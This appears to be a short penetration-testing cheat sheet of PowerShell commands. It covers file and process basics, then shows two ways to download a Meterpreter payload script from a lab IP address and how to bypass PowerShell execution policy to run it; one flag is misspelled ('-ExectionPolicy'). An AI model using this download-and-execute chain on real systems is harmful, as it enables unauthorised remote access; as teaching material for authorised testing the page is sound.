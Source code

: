 # Powershell for Pentesters

## Manipulating Files

```powershell
# Start the notepad app
Start-Process notepad.exe

Get-Process -name notepad

# Export the process information to the csv format
Get-Process | Export-Csv running_process.csv

# Copy-Item , Move-Item
Copy-Item .\IP.txt copy_IP.txt

# Get file Hash
Get-FileHash -Algorithm SHA256 .\IP.txt
```

## Downloading Files

```powershell
# First Way
(New-Object System.Net.WebClient).Downloadfile('http://10.0.2.8:8888/meterpreter-64.ps1', 'meterpreter.ps1')

# Second Way
Invoke-WebRequest 'http://10.0.2.8:8888/meterpreter-64.ps1' -OutFile "meterpreter.ps1"
```

To get Execution policy we can run `Get-ExecutionPolicy -list`.

Execution policies can have seven different values;

    - AllSigned: Scripts can run but require all scripts to be signed by a trusted publisher.

    - Bypass: All scripts can run, and no warnings or prompts will be displayed.

    - Default: This refers to “restricted” for Windows clients and “RemoteSigned” for Windows servers.

    - RemoteSigned: Scripts can run, and this does not require local scripts to be digitally signed.

    - Restricted: The default configuration for Windows clients. Allows individual commands to run, does not allow scripts.

    - Undefined: This shows that no specific execution policy was set. This means default execution policies will be enforced.

    - Unrestricted: Most scripts will run.

To by pass the ExecutionPolicy we can run
```powershell
# First way
powershell -ExectionPolicy Bypass -File .\meterpreter.ps1

# Second way: -scope make only be able run for current powershell session
Set-ExecutionPolicy Bypass -scope Process
```

